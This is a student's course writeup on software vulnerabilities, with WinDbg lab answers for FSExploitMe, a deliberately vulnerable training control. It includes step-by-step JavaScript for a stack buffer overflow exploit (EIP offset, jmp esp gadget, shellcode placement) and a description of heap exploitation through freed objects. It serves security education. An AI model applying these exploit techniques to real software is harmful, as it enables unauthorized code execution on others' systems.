

[Back to Index](https://jaegermeiste.github.io/DefenseAgainstTheDarkArts/)

## Week 4 Writeup

Jason George

### Software Vulnerabilities and Common Exploits Lesson 1 - Wk 4

Brad Antoniewicz ([@brad_anton](https://twitter.com/brad_anton)) is currently a Security Research Manager at OpenDNS/Cisco, but was R&D Manager at Intel Foundstone and Adjunct Professor at NYU at the time of the video.

[http://cwe.mitre.org/data/index.html](http://cwe.mitre.org/data/index.html) has various filters and views listing common software vulnerabilities for a programmer to worry about. For example, [http://cwe.mitre.org/data/definitions/14.html](http://cwe.mitre.org/data/definitions/14.html) is an interesting one - compiler optimizations removing code that clears the contents of a buffer (because the buffer is never accessed again afterwards). Thus you need a secure way to zero a buffer wihtout the compiler optimizing it away - either by manually doing something like:

``` C
memset(buffer, 0, sizeof(buffer)); 
buffer[0] = 0;    // Prevent compiler optimizing away memset by (meaninglessly) accessing it afterward
```

or in Win32, using SecureZeroMemory ([https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx)) instead of ZeroMemory.

FSExploitMe Lab 1:
1. lmf m FSExploitMe >> start = 54430000 end = 5443b000
2. !teb >> StackBase = 021f0000 StackLimit=021d7000 ?021f0000 - 021d7000 = 00019000
3. !peb >> ProcessHeap = 00320000
4. r >> eip=54431df0
5. u eip L10 >> 54431df3 sub esp, 14h (0x14 = 20 bytes)
6. t 5; du poi(esp) >> FluffyBunniesDontFlapOrQuack
7. p b 11 >> eip = 54431e27 cmp dword ptr [ebp-4],0Ah (0x0A = 10 decimal). 10 loops
8. pt >> eax = 00007a69; .formats eax >> Decimal: 31337
9. !address esi >> Usage: Stack

Most of the difficulty here is simply in learning WinDbg, but it is obviously very powerful. Now on to exploits!

FSExploitMe Lab 2:

A. Stack Behavior:
1. r >> edi = 54431e80
2. 3 arguments: 54431e89 push 1, 54331e8b push offset FSExploitMe!IID_DFSExploitMeEvents+0x6c (54434ecc), 54431e90 push 26h
3. .formats 26h >> 38 decimal, da 54434ecc >> "HeyHeyHeySon", 0x1 = 1 decimal: function call could be: func(int 38, char* "HeyHeyHeySon", bool true);

B. Crash Triage
1. r >> eip = 41414141, ebp = 41414141 
2. eax = 020f95ec, ebx = 00000008, ecx = 00000000, edx = 00000000, esi = 020f9a00, edi = 54432160, eip = 41414141, esp = 020f99f8, ebp = 41414141. Not ebx, ecx, edx, eip, or ebp. dd edi points to normal looking data. dd eax >> 414141... , dd esi >> 414141..., dd esp >> 414141... so eax, esi, and esp point to attacker controlled data.
3. 544320e0
4. 0x400 = 1024 decimal

C. Lab: Exploit!
1. ```Javascript
function L2Exercise1() {
  var s = msfPatternString;
  FSExploitMe.StackBuffer(s);
}
```
Loading byakugan and setting the pattern_offset 2000 doesn't seem to do anything at first. On the second atttempt, I loaded byakugan before triggering the exploit and the pattern_offset 200 command returned `[Byakugan] Control of eip at offset 1028.`
2. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u4242\u4242"
  FSExploitMe.StackBuffer(s);
}
```
3. lmf m FSExploitMe >> start=54430000 end=5443b000; s 54430000 5443b000 ff e4 >> 54432437
4. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u2437\u5443"  /* jmp esp address */
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```
5. 54432159 is a ret 4, popping 4 bytes from the stack.
6. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u2437\u5443"  /* jmp esp address */
  s += "\u4141\u4141"
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```

Profit!


### Software Vulnerabilities and Common Exploits Lesson 2 - Wk 4

Random note: While 0x41 is ASCII A, `\u4141` used in the exploit examples is 䅁, the unified Chinese/Japanese/Korean "Ideograph to husk rice; to get the grains by oppressing the ears of the rice plant" ([https://unicode-table.com/en/4141/](https://unicode-table.com/en/4141/)). Sort of apropos.

Enabling the Low Fragmentation Heap is important in order to ensure there is contiguous memory to exploit. The heap is prdicatably organized, so you can load exploit code in high memory, replace a freed object in the LFH with a pointer to your exploit code, and then the code itself will execute the exploit naturally the next time the compromised object is called.


This week's lessons was highly informative, if a bit complex with a lot to absorb. I believe my own regular debugging skills have improved as well.
